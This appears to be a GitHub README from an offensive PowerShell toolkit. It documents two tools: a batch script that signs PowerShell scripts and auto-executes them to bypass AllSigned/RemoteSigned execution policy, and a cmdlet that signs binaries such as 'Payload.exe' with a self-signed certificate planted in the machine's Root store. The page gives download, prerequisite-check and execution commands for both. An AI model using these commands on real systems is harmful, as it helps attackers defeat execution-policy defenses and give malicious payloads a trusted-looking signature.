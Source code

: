 ## PSscriptSigning.bat


|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Auto-Execute it ?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
#Make sure LanManServer its running
[bool](Get-Service -Name LanManServer)

#Make sure the correct (AllSigned|RemoteSigned) execution policys are set
[bool]((Get-ExecutionPolicy -Scope CurrentUser) -iMatch "^(AllSigned|RemoteSigned)$")

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")
```

<br />

**execute:**
```powershell
#Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

#Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

<br />

**execute:**
```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

**Final Notes:**
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then auto-execute it bypassing 'Set-ExecutionPolicy AllSigned,RemoteSigned' restrictions.

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs one cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Invoke-LazySign.ps1

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-LazySign](https://github.com/r00t-3xp10it/redpill/blob/main/lib/CertSign_PS1/Invoke-LazySign.ps1)|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/SuperWork.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure all the required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name "PKI").ExportedCmdlets|findstr /C:"New-SelfSignedCertificate")
[bool]((Get-Module -ListAvailable -Name "Microsoft.PowerShell.Security").ExportedCommands|findstr /C:"Set-AuthenticodeSignature")
```

<br />

**execute:**
```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

**Final Notes:**
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the certificate code block
inside signed binary\cmdlet will brake, rending the signed binary\cmdlet as 'NOT-SIGNED' again.

Do 'NOT' use Regex when invoking -Action 'del' to delete certificates from the Windows Store.
Because Invoke-LazySign.ps1 cmdlet uses recursive search by default (deleting multiple certs)
This function as a precaution it asks for comfirmation before deleting the certificate(s).

This cmdlet will 'NOT' sign our script.ps1 if 'Set-ExecutionPolicy AllSigned,RemoteSigned' are set.
Because ExecutionPolicy will prevent this cmdlet from running. If you wish to bypass this restrictions
then execute the 'PSscriptSigning.bat' batch module contained in this same repository (the first module)
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
